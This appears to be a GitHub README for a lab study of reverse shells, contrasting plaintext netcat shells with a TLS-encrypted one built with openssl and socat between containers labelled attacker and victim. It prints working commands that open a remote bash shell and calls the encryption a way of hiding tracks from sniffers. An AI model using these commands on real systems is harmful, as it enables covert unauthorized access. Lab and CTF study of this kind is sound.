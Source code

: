 # reverse-shell-tls
simple study of reverse shell using tls certificate to protect against sniffers

## Common reverse shell

As you may noticed during the usual ctf challenges (hack the box or vulnhub for example) you can simply run a reverse shell using netcat. Sadly as you ran a reverse shell with netcat, your traffic is not encrypted so if a sniffer is running on the workstation you are trying to hack, it can track all your commands.

In this experiment it has been used two containers:
* 172.18.0.2 - kali attacker
* 172.18.0.3 - victim pc

As a proof of what it has being said above, as you open the capture file shells.cap you may notice using the follow TCP stream option that all the commands are in clear-text, and so far it isn't good as for hiding tracks.


## Encrypted reverse shell

If you want to try to create a reverse shell with the tls option, you need **socat**. But before running socat, you need to create a certificate with OpenSSL. To create a certificate run the following:

`openssl req -newkey rsa:2048 -noenc -keyout privatekey.key -x509 -days 1000 -out cert.crt`

if you don't mind the informations about your certificate just press the enter key until is done. This command has the following options:
* req = request
* -newkey = generates a new key usually it is rsa with a complexity of 2048 bits
* -noenc = does not encrypt the private key
* -keyout = outputs the key content to a file
* -x509 = generates a x509 certificate
* -days = validity of the certificate
* -out = outputs all the informations (the extensions must end as crt)

once done this command, it needs both the private key that the certificate to be together so that the ssl exchange can be done:

`cat privatekey.key cert.crt > certificate.pem`

now you need to tell socat to use this certificate:

`socat -d openssl-listen:5555,cert=certificate.pem,verify=0 EXEC:/bin/bash`

this tells socat to listen in ssl to the port 5555 plus:
* cert = the certificate to pass to socat
* verify = it has the value 0 so that doesn't block with let's encrypt
* EXEC = executes a command (in this case spawn a bash shell)

on the victim pc run the following command:

`socat -d openssl:172.18.0.2:5555,verify=0`

as your run this command you will obtain a dumb shell, but the commands are now encrypted (check the secret.cap)

